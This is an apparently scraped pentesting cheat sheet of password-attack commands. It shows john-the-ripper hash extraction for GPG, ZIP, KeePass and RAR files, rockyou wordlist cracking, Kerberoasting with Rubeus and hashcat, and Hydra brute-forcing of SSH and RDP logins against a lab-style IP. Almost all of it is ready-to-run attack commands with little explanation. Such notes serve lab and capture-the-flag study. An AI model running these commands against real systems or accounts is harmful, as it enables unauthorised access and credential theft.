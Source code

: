 **gpg2john**

Encrypted PGP file found? Crack it with gpg2john

```bash
gpg --import name.asc
gpg2john name.asc > hash
john --format=gpg --wordlist=/usr/share/wordlists/rockyou.txt hash
gpg --decrypt somecredentials.pgp # Enter
```

**zip2john**

Encrypted ZIP file found? Crack it with zip2john

```bash
1) zip2john somezipname.zip > zipname.hash
2) john zipname.hash
3) 7z e somezipname.zip

Enter password (will not be echoed): PASSWORD_HERE
```

**keepass2john**

```bash
keepass2john some_pass_key.kdbx
```

**rar2john**

```bash
rar2john SOME_FILE.rar > crack_this
john --wordlist=/usr/share/wordlists/rockyou.txt crack_this
```

#### TGS

```bash
.\Rubeus.exe kerberoast
hashcat -m 13100 -a 0 hash /usr/share/wordlists/rockyou.txt --force
hashcat -m 13100 --force <TGSs_file> /usr/share/wordlists/rockyou.txt
```

````

### SSH
#### Hydra
```shell
hydra -L user.list -P password.list ssh://10.129.42.197
hydra -C user_pass.list ssh://10.129.42.197
````

#### RDP

```shell
hydra -L user.list -P password.list rdp://10.129.42.197

xfreerdp /v:<target-IP> /u:<username> /p:<password>
```
